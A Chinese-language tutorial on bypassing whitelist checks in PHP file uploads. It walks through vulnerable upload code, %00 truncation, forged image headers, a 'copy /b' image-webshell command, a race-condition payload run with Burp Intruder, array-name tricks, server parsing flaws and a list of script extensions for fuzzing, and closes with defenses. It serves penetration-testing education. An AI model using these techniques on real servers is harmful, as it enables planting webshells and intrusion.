





## 0x00 白名单绕过概述
之前的都是利用黑名单进行防护，防御恶意文件上传，接下来要写的是白名单防御以及如何绕过白名单的方法。  
使用白名单会相对安全，因为只允许指定的文件后缀名，但是如果存在可控参数目录，也存在被绕过的风险。

## 0x01 目录可控%00截断绕过上传
代码分析：  
代码中使用白名单限制上传文件的后缀名，只允许指定的图片格式。  
但是 $_GET['save_path'] 导致服务器接收了客户端的值，这个值可以被客户端控制从而留下安全隐患。  
```php
$ext_arr = array('jpg', 'png', 'gif');
$file_ext = substr($_FILES['upload_file']['name'], strrpos($_FILES['upload_file']['name'], '.') + 1);
$img_path = $_GET['save_path'] . "/" . rand(10, 99) . date("YmdHis") . "." . $file_ext;
move_uploaded_file($temp_file, $img_path);
```

## 0x02 文件上传参数目录可控攻击
上传目录参数可控：  
- 当 gpc 关闭的情况下，可以用%00 对目录或者文件名进行截断；
- php 版本小于 5.3.4；  

首先截断攻击，抓包上传，将 %00 自动截断后门内容：  
例如 1.php%00.1.jpg 变成 1.php  
  

## 0x03 目录可控POST绕过上传
上面是 GET 请求的，可以直接在 url 输入%00 即可截断，但是在 post 下直接注入%00 是不行的，需要把%00
解码变成空白符，截断才有效。才能把目录截断成文件名。
```php
$img_path = $_POST['save_path'] . "/" . rand(10, 99) . date("YmdHis") . "." . $file_ext;
```
与上面GET传参不同的地方在于，这里是用POST接收可控参数。  
这段代码同样是白名单限制后缀名，$_POST['save_path']是接收客户端提交的值，客户端可任意修改。所
以会产生安全漏洞。  
使用%00 截断文件名 ，再 post 环境下%00 要经过 decode解码， 同时受 gpc 限制。  
decode过程如下：  
  
   

## 0x04 文件头检测绕过上传
有的文件上传，上传时候会检测文件头，不同文件的文件头不同。常见的文件上传图片头检测 ，
它检测图片是两个字节的长度，如果不是图片的格式，会禁止上传。  
常见文件头：  
- JPEG FFD8FF
- PNG 89504E47
- GIF 47494638
- TIFF 49492A00
- Windows Bitmap（bmp） 424D  

代码分析：  
```php
function getRealFileType($filename){
    $file = fopen($filename, "rb"); //打开文件
    $bin = fread($file, 2); // 只读2字节
    fclose($file);//关闭文件
    $strInfo = @unpack("C2chars", $bin);
    $typeCode = intval($strInfo['chars1'] . $strInfo['chars2']);
    $fileType = '';
    switch($typeCode){
        //选择对应文件类型
    }
}
```
如果上传的文件符合要求即可通过检测。  
制作图片一句话木马直接上传，结合文件包含漏洞利用。  
```bash
copy 1.gif/b+moon.php shell.php
```
copy 1.gif/b+moon.php shell.php 这个命令是一个 Windows 操作系统中的命令行操作，具体的作用是将 1.gif 和 moon.php 文件合并为一个新的文件 shell.php。
其中，/b 选项表示二进制模式。这个命令常被用于创建包含恶意代码的混合文件，可能用于文件上传攻击等场景。
  
还可以在上传数据包的前面加上GIF89a来达到上传绕过目的。

## 0x05 图片检测函数绕过上传
```php
$info = getimagesize($fileanme);
```
getimagesize 是获取图片的大小，如果头文件不是图片会报错，这里也可以用图片马来绕过检测。

## 0x06 绕过图片二次渲染上传
有些图片上传，会对上传的图片进行二次渲染后在保存，体积可能会更小，图片会模糊一些，但是符合网
站的需求。例如新闻图片封面等可能需要二次渲染，因为原图片占用的体积很大。访问的人数太多时候会
占用很大带宽。二次渲染后的图片内容会减少，如果里面包含后门代码，可能会被省略。导致上传的图
片马中恶意代码被清除。  

```php
$im = imagecreatefromif($target_path);
```
代码中白名单限制了只允许上传 jpg、png、gif 格式的图片，在源码中使用 imagecreatefromgif 函数对图片进行二次生成。
生成的图片保存在 upload 目录下。  
首先判断图片是否允许上传 gif，gif 图片在二次渲染后，与原图片差别不会太大。所以二次渲染攻击最好
用 git 图片马。  
制作图片马过程：  
将原图片上传，下载渲染后的图片进行对比，找相同处，覆盖字符串，填写一句话后门，或者恶意指令。  
   
原图片与渲染后的图片这个位置的字符串没有改变所在原图片这里替换成<? php phpinfo();?>直接上传即
可。

## 0x07 文件上传条件竞争漏洞绕过
关于文件上传的条件竞争漏洞参考这个链接：https://blog.csdn.net/weixin_45588247/article/details/118796606

条件竞争导致文件上传的原理：  
条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。  
传文件源代码里没有校验上传的文件，文件直接上传，上传成功后才进行判断：如果文件格式符合要求，则重命名，如果文件格式不符合要求，将文件删除。  
由于服务器并发处理(同时)多个请求，假如a用户上传了木马文件，由于代码执行需要时间，在此过程中b用户访问了a用户上传的文件，会有以下三种情况：  
1. 访问时间点在上传成功之前，没有此文件。
2. 访问时间点在刚上传成功但还没有进行判断，该文件存在。
3. 访问时间点在判断之后，文件被删除，没有此文件。  

代码分析：  
```php
$is_upload = false;
$msg = null;   //判断文件上传操作

if(isset($_POST['submit'])){  //判断是否接收到这个文件
    $ext_arr = array('jpg','png','gif');  //声明一个数组，数组里面有3条数据，为：'jpg','png','gif'
    $file_name = $_FILES['upload_file']['name'];  //获取图片的名字
    $temp_file = $_FILES['upload_file']['tmp_name']; //获取图片的临时存储路径
    $file_ext = substr($file_name,strrpos($file_name,".")+1); //通过文件名截取图片后缀
    $upload_file = UPLOAD_PATH . '/' . $file_name; //构造图片的上传路径，这里暂时重构图片后缀名。

    if(move_uploaded_file($temp_file, $upload_file)){ //这里对文件进行了转存
        if(in_array($file_ext,$ext_arr)){ //这里使用截取到的后缀名和数组里面的后缀名进行对比
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;  //如果存在，就对文件名进行重构
             rename($upload_file, $img_path);  //把上面的文件名进行重命名
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！"; //否则返回"只允许上传.jpg|.png|.gif类型文件！"数据。
            unlink($upload_file);// 并删除这个文件
        }
    }else{
        $msg = '上传出错！';
    }
}
```
代码处理流程是：  
声明一个数组，保存着允许上传的文件类型-->获取文件名和文件临时存储路径-->截取文件名-->构造文件上传后的存储路径-->对文件进行转存-->比对白名单，如果存在就对文件进行重命名-->否则就删除文件。
服务器先通过 move_uploaded_file 函数把文件保存了，然后再去判断后缀名是否合法，合法就重命名，如果不合法再删除。
重点在于，在多线程情况下，就有可能出现还没处理完，我们就访问了原文件，这样就会导致防护被绕过。  
我们上传一个文件上去，后端会检验上传文件是否和要求的文件是否一致。
如果不能达到要求就会删除文件，如果达成要求就会保留，那么当我们上传文件上去的时候，检测是否到达要求需要一定的时间，这个时间可长可短，但是我们确确实实在某一刻文件已经上传到了指定地址，并且访问到这个文件。
这时候就会造成条件竞争。  
条件竞争的场景：  
营造10000人同时上传文件1.php，另外有10000人在同时访问这个1.php；上传文件时，这个文件会有一段时间留存在服务器的上传目录下，而服务器脚本在进行判断文件是否合法而对文件进行删除时，会有一定的处理时间，可能在某个时间里，服务器还未来得及删除文件，从而导致我们对这个上传文件成功访问。  

payload：  
```php
<?php 
$f= fopen ("test.php","w") ;
fputs ($f,'<?php phpinfo();?>');
?>
```
这个文件的作用就是，在访问到这个文件后，这个文件会在服务器的当前目录下创建一个test.php 。内容为<?php phpinfo();?>。  
具体可以通过burp 的 Intruder模块实现，可以在报文头后加?a=1并将1选中，用数字模块1-10000进行爆破，也可以直接null payloads进行爆破。  
同时模拟10000人发送数据包，和10000人接收数据包的场景，便能够发现上传并访问成功的，可以看到服务器生成了webshell。

## 0x08 文件名可控绕过上传
文件上传时,文件名的可被客户端修改控制,会导致漏洞产生。

```php
$file_name = $_POST['save_name'];
```
采用黑名单限制上传文件,但是 $_POST['save_name']文件是可控的,可被客户端任意修改,造成安全漏洞.

文件名可控的攻击方法：  
1. 文件上传，后缀名采用 %00 截断，抓包decode解码。例如 moon.php%00.jpg 截断后 moon.php；
2. 与中间件漏洞配合使用，例如 IIS 6.0 上传 1.php;1.jpg | apache 上传 1.php.a 也能解析文件 | a.asp;1.jpg 也能解析成 asp | /. 也能达到相同效果

## 0x09 数组绕过上传
有的文件上传，如果支持数组上传或者数组命名。如果逻辑写的有问题会造成安全隐患，导致不可预期的
上传。这种上传攻击，它是属于攻击者白盒审计后发现的漏洞居多。  

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```
首先检测文件类型（MIME类型），需要把文件类型改成对应白名单中的image类型才能正常上传。  
如果上传不是数组格式，文件名会被explode打散为数组格式，继续接下来的处理。  
然后观察代码可以发现，只要上传php就会被禁止，所以我们要上传后缀名为jpg等的图片格式。  
最后把第一个数组与最后一个数组拼接  成文件名，保存到指定路径下。
举个例子：  
```php
<?php
$file= $_GET['save_name'];
echo $file_name = reset($file) . '.' . $file[count($file) - 1];
?>
```
如果是两个参数，拼接字符串是xx.php/.png ，在move_uploaded_file()函数中 /.会自动忽略 所以可以移动到指定目录。  

攻击方法：  
构造上传表单，设置数组上传。  
从代码中，可以知道下标为2的数组必须有数据， 这样下标为1的数组值就获取不了，字符串拼接起来就是 moon.php/. 就能上传 moon.php。

   

从上图可以看出， save_name[] 数组长度为2，则 2-1=1，但是 save_name[1]是一个空值，所以把NULL拼接过去，就变成了
xx.php/.  。在Windows下是可以正常识别为 xx.php 文件的。


## 0x10 数组绕过上传

```php
$file_name = reset($file) . '.' . $file[count($file) - 1];
```
数组中像上述那样计算是有问题的，因为count()函数本身存在一个漏洞。  
自定义一个数组 arr[]，定义arr[0]=1,arr[3]=2, 此时count(arr)的值为2，则arr[count[arr]-1]即为arr[1]，但是arr[1]未定义，即为一个空值。
若使用count()函数的本意是指向arr数组的最后一个元素，此时却指向arr[1]，形成数组漏洞。

## 0x11 文件上传其他漏洞
nginx 0.83 上传 /1.jpg%00php 会被正常解析为 1.php   
apache 1x 或 2x 当 apache 遇见不认识的后缀名，会从后向前解析例如 1.php.rar 不认识 rar 就向前解析为php，直到知道它认
识的后缀名   
phpcgi 漏洞(nginx iis7 或者以上) 上传图片后 1.jpg。访问 1.jpg/1.php 也会解析成 php。  
Apache HTTPD 换行解析漏洞（CVE-2017-15715）  
apache 通过 mod_php 来运行脚本，其 2.4.0-2.4.29 中存在apache 换行解析漏洞，在解析php 时 xxx.php\x0A
将被按照 PHP 后缀进行解析，导致绕过一些服务器的安全策略。  

## 0x12 文件上传漏洞通用检测方法
首先判断文件上传模块，是否为黑白名单，如果是白名单，就寻找可控参数。如果是黑名单禁止上传，可以用危害后缀名批量提交测试，寻找黑名单中的漏网之鱼。  
常见文件上传攻击脚本的后缀名如下：  
```txt
.php
.php5
.php4
.php3
.php2
.html
.htm
.phtml
.pht
.pHp
.phP
.pHp5
.pHp4
.pHp3
.pHp2
.Html
.Htm
.pHtml
.jsp
.jspa
.jspx
.jsw
.jsv
.jspf
.jtml
.jSp
.jspx
.jSpa
.jSw
.jSv
.jSpf
.jHtml
.asp
.aspx
.asa
.asax
.ascx
.ashx
.asmx
.cer
.aSp
.aSpx
.aSa
.aSax
.aScx
.aShx
.aSmx
.cEr
.sWf
.swf
.htaccess
```
## 0x13 文件上传漏洞防御方法
1. 服务端使用白名单防御；
2. 修复 web 中间件的漏洞；
3. 禁止客户端存在可控参数；
4. 存放文件目录禁止脚本执行；
5. 限制文件后缀名，确保不会伪造图片格式；
6. 上传文件名随机，不可预测；